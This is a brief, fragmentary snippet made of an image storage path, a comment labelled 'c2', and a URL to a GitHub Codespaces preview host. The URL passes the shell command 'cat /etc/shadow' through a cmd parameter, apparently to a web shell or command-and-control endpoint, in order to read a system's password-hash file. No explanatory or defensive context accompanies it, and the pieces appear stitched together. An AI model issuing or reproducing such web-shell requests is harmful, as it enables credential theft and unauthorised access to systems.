 # c2

https://secureinfo42-sturdy-eureka-wr47qgqr4pr2gj7w-8888.preview.app.github.dev/?cmd=cat%20/etc/shadow
